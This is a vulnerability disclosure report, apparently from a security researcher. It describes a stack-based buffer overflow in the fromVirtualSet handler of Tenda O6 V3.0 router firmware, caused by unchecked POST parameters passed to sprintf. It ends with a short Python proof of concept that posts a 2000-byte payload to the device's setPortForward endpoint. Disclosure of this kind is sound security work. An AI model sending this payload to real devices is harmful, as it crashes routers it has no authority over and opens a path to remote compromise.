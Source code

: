 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3861.html

## Affected version

O6 V3.0 V1.0.0.7(2054)

## Vulnerability details

In the O6 V3.0 V1.0.0.7(2054) firmware has a stack overflow vulnerability in the `fromVirtualSet` function. The `v2, v3, v4, v6` variable receives the `ip, localPort, publicPort, app` parameters from a POST request. However, since the user can control the input of these parameters, the statement `sprintf((char *)v26, "0;%s;%s;%s;%s;%s;%s", v4, v3, v2, (const char *)v27, "1", v6);` can cause a buffer overflow. The user-provided  `ip, localPort, publicPort, app` can exceed the capacity of the `v26` array, triggering this security vulnerability.

![image-20240801132435207](C:\Users\杨浩然\AppData\Roaming\Typora\typora-user-images\image-20240801132435207.png)

![image-20240801132425406](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801132425406.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setPortForward"
payload = b"a"*2000

data = {"ip": payload}
response = requests.post(url, data=data)
print(response.text)
```

